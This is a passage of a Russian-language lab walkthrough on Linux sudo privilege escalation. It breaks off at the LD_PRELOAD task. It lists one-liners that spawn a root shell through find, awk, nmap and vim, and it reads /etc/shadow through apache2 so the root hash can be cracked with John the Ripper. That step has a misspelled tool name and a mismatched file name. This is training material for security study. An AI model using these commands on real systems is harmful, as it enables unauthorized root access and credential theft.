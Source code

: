 Linux- виртуальная машина

1. В командной строке введите: `sudo -l`
2. В выводе обратите внимание на список программ, которые можно запустить через sudo.

Эксплуатация Linux- виртуальная машина

1. В командной строке введите любую из следующих команд:
а. `sudo find /bin -name nano -exec /bin/sh \;`
б. `sudo awk 'BEGIN {system("/bin/sh")}'`
в. `echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse`
г. `sudo vim -c '!sh'`
### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 9
Обнаружение

Linux- виртуальная машина

1. В командной строке введите: `sudo -l`
2. В выводе обратите внимание на список программ, которые можно запустить через sudo.

Эксплуатация Linux- виртуальная машина

1. В командной строке введите:
`sudo apache2 -f /etc/shadow`
2. Из выходных данных скопируйте корневой хеш.

Атакующая виртуальная машина

1. Откройте командную строку и введите:
`echo '[Вставленный корневой хэш]' > hash.txt`
2. В командной строке введите:
`jhon --wordlist=/usr/share/wordlists/nmap.lst хэш.txt`
3. В выводе обратите внимание на взломанные учетные данные.
### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.

```commandline
Ответ не нужен
```

## Задание 10
Обнаружение

Linux- виртуальная машина

1. В командной строке введите: `sudo -l`
2. В выводе обратите внимание, что переменная среды LD_PRELOAD не повреждена.

Эксплуатация
